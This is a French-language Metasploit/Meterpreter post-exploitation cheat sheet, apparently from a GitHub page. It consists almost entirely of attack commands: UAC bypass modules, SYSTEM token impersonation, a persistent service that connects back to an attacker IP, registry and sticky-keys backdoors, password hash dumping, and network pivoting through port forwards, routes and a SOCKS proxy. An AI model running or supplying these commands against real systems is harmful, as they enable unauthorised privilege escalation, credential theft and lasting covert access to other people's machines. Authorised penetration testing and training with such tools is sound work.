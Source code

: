### Élévation de Privilèges
```bash
# Rechercher des exploits locaux
run post/multi/recon/local_exploit_suggester

# Exploits UAC bypass courants
use exploit/windows/local/bypassuac_eventvwr
use exploit/windows/local/bypassuac_fodhelper

# Token impersonation
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\\SYSTEM"
```

### Persistance
```bash
# Installer un service persistant
run persistence -S -U -X -i 10 -p 4445 -r attacker_ip

# Registry persistence
use post/windows/manage/persistence_exe
set SESSION 1
set REXEPATH /path/to/backdoor.exe
run

# Scheduled task
use post/windows/manage/sticky_keys
set SESSION 1
run
```

### Collecte d'Informations
```bash
# Dump des hashs
hashdump
run post/windows/gather/smart_hashdump

# Informations utilisateurs
run post/windows/gather/enum_logged_on_users
run post/windows/gather/enum_users

# Énumération système
run post/windows/gather/enum_applications
run post/windows/gather/enum_computers
run post/windows/gather/enum_patches
```

### Pivoting et Lateral Movement
```bash
# Découverte réseau
run post/multi/gather/ping_sweep RHOSTS=192.168.1.0/24

# Port forwarding
portfwd add -l 8080 -p 80 -r 192.168.1.10

# Route vers réseau interne
route add 192.168.1.0 255.255.255.0 session_id

# Proxy SOCKS
use auxiliary/server/socks4a
set SRVPORT 1080
run -j
```